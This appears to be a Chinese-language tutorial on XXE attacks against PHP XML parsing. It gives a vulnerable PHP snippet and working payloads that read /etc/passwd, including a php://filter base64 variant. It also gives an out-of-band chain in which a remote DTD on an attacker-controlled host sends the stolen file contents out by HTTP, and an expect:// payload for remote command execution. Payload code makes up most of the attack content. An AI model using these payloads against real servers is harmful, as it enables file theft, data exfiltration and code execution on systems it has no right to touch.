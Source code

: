 ## 消息回显测试

实例源码：

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```



```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<root>
    <name>&xxe;</name>
</root>
```



```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">]>
<foo>&xxe;</foo>
```



`file=php://filter/convert.base64-encode/resource=`



## 无回显内容获取

如果直接执行的话是没有任何回显的。可以使用http协议将请求发送到远程服务器上，从而获取文件内容。

首先在远程服务器写入一个dtd文件，例如test.dtd,文件内容如下：

> % 号需要实体16进制编码为 &#x25;

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://<kali>/%file;'>">
```

发送攻击 payload ，查看HTTP请求是否接收到数据内容。

```xml
<!DOCTYPE convert [
    <!ENTITY % remote SYSTEM "http://<kali>/test.dtd">
    %remote;%int;%send;
]>
```

执行逻辑大概如下：

从 payload 中能看到 连续调用了三个参数实体 `%remote;%int;%send;`，这就是我们的利用顺序，%remote先调用，调用后请求远程服务器上的test.dtd ，有点类似于将 test.dtd包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#x25;`)，我们再调用 %send; 把我们的读取到的数据以GET请求的方式发送到我们的服务器上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。


## expect RCE

当php安装了expect扩展后（此扩展默认未安装），攻击者就可以利用except进行远程代码执行的操作。

```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>
```



> https://xz.aliyun.com/t/3357
